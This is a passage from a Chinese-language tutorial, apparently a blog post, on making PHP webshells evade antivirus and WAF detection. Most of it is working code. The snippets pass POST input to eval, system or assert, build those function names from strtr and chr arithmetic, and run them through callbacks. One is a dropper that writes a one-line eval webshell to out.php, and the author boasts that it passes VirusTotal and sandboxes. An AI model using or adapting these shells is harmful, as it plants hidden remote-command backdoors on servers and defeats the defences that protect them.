 首先先读取文件名，从 `976534.php` 文件名中提取出 `976534` ，然后带入函数中就成功返还 `sysTem` 高危函数了，可以配合其他姿势一起使用，达成免杀效果

### 2.3 特殊字符串

主要是通过一些特殊的字符串，来干扰到杀软的正则判断并执行恶意代码（各种回车、换行、null和空白字符等）

```php
$f = 'hello';
$$f = $_POST['aabyss'];
eval(``.$hello);
```

## 3# 生成新文件绕过

这是我之前写的一个免杀，其实原理也很简单，该PHP本身没法执行命令，但是运行后可以在同目录混淆写入一个WebShell，也是可以进行免杀的：

```php
$hahaha = strtr("abatme","me","em");      //$hahaha = abatem
$wahaha = strtr($hahaha,"ab","sy");       //$wahaha = system（高危函数）
$gogogo = strtr('echo "<?php evqrw$_yKST[AABYSS])?>" > ./out.php',"qrwxyK","al(_PO");
//$gogogo = 'echo "<?php eval(_POST[AABYSS])?>" > ./out.php'
$wahaha($gogogo);  //将一句话木马内容写入同目录下的out.php中
```

现在看这个是不是很简单，但是这个可是VirusTotal全绿、微步沙箱和百度沙箱都过的哦~

没想到吧~ 其实在这个简单的基础上还可以拓展出来进行高阶免杀操作

## 4# 回调函数绕过

通过回调函数，来执行对应的命令，这里举两个例子：

### 4.1 call_user_func_array()

```php
//ASCII编码解密后为assert高危函数
$f =  chr(98-1).chr(116-1).chr(116-1).chr(103-2).chr(112+2).chr(110+6);
call_user_func_array($f, array($_POST['aabyss']));
```

### 4.2 array_map()

```php
function fun() {
    //ASCII编码解密后为assert高危函数
	$f =  chr(98-1).chr(116-1).chr(116-1).chr(103-2).chr(112+2).chr(110+6);
	return ''.$f;
}
$user = fun();    //拿到assert高危函数
$pass =array($_POST['aabyss']);
array_map($user,$user = $pass );
```

回调函数的免杀早早就被WAF盯上了，像这样单独使用一般都没办法免杀，所以一般都是配合其他手法使用

## 5# 可变变量绕过
